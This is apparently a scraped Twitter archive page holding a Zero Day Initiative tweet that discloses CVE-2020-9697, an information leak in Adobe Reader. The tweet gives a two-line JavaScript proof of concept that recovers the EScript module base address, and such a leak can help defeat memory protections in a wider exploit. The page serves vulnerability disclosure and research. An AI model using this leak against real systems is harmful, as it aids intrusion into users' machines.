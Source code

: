 <td><img src="pictures/70f3a89f478d619482f2a9129944ac561cc63dea863b2578ac78bd0ee224baca.jpg" alt="70f3a89f478d619482f2a9129944ac561cc63dea863b2578ac78bd0ee224baca.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1293568647043190784 _at 2020-08-12, 15:22:53_**
<blockquote>
CVE-2020-9697: Info disclosure in #Adobe Reader. 

PoC: 
var a = app.measureDialog(app);
console.println("Escript Base: " + (Math.abs(a[1]) - 0x0044b43).toString(16)) https://t.co/dpxYcvLnca
</blockquote>

<table><tr>
